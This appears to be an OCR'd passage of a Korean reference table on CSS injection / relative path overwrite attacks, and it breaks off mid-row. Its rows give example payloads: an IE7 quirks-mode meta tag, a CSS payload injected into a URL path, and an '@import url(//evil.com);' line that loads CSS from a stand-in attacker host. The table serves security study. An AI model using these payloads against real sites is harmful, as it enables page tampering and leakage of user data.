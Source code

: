 <table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Quirks Mode Forcing</td>
      <td>
        <pre><code>&lt;meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7"&gt;</code></pre>
      </td>
      <td>브라우저가 Content-Type: text/html 헤더를 무시하고 HTML 문서를 CSS로 파싱하도록 만들기 위해, 취약한 페이지를 iframe에 삽입하고 메타 태그를 이용해 IE7 호환 모드(Quirks Mode)를 강제로 활성화시킨다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Visual Confirmation via CSS Injection</td>
      <td>
        <pre><code>/search.php/%0A{}*{color:red;}///</code></pre>
      </td>
      <td>URL 경로에 간단한 CSS 페이로드를 주입하여, iframe으로 로드된 페이지의 특정 요소(예: 전체 텍스트)가 빨간색으로 변하는지 시각적으로 확인한다. 이를 통해 공격이 성공적으로 작동하는지 검증할 수 있다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Arbitrary CSS Execution</td>
      <td>
        <pre><code>@import url(//evil.com);</code></pre>
      </td>